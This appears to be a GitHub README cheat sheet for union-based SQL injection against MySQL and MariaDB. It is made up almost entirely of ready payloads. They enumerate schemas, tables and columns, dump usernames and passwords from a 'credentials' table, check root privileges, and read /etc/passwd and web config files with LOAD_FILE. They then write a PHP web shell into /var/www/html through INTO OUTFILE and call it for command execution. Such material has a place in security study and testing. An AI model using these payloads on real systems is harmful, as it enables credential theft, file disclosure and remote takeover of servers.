 # sql-injection

## Union Base SQL Injection
## Method for dumping data from database using Uninon SQL Injection

##### Schema,Schemata check

      mysql> SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;

#### Step 1: Schema/Database check

     ' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -

#### Step 2: Tables check

      ' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -

Here , dev is database name which will replace to your target database name

#### Step3: Columns check

      ' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -

Here , credentials is table name whick will replace to your target table name

#### Step4: Dum Data from table:

      ' UNION select 1, username, password, 4 from dev.credentials-- -

Where username and password are column name , dev is database name , credentials is table name

## Read Data/Sensitive files using Union SQL Injection
     SELECT USER()
     SELECT CURRENT_USER()
     SELECT user from mysql.user

#### Step 1:Privilege Check

      SELECT super_priv FROM mysql.user
      ' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -
      ' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
      ' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -
#### Step 2:Load File
Now that we know we have enough privileges to read local system files, let us do that using the LOAD_FILE() function. The LOAD_FILE() function can be used in MariaDB / MySQL to read data from files. The function takes in just one argument, which is the file name. The following query is an example of how to read the /etc/passwd file:

      SELECT LOAD_FILE('/etc/passwd');
      ' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -

#### Another Example

We know that the current page is search.php. The default Apache webroot is /var/www/html. Let us try reading the source code of the file at /var/www/html/search.php.

      ' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -
      ' UNION SELECT 1, LOAD_FILE("/var/www/html/config.php"), 3, 4-- -
### Write Files Using Union SQL Injection or RCE Using SQL Injection
Example

      ' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -
Web Shell Upload:

      ' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
      
Basic PHP Web Shell:

      <?php system($_REQUEST[cmd]); ?>
      
OR 
      
      <?php system($_GET['cmd']); ?>
 
### For RCE , Call Upload Web shell 

Example :
          
          url/upload_file.php?parameter=commnad

          http://cyberteach360/shell.php?cmd=id

